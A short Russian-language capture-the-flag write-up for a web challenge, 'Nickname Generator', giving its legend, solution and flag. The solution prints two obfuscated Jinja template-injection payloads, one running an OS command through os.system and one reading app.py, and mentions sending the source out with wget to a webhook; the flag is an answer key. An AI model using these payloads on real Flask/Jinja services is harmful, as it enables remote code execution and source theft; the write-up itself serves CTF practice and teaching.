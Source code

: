 # Карл тут RCE если что

## Название
Nickname Generator
## Описание/Легенда
Baba Kapa is going to register a Skype account, but do not really understand how to choose cool and zoomer-styled nickname. We are going to suggest this service as an advice. So, can you look if it works properly?
## Решение
Заюзать подобный пейлоад для Jinja SSTI:
```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[80]["load\x5Fmodule"]("os")["system"]("ls")}}
```
Где на месте числа 80 стоит порядковый номер _frozen_importlib.BuiltinImporter

Затем с помощью wget передать app.py себе на вебхук и расшифровать флаг

### ИЛИ

```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "app\x2Epy")}}
```

**Флаг:** paseca{zap0st1l_cr1ng3_shtr4f_d1ar33y4}
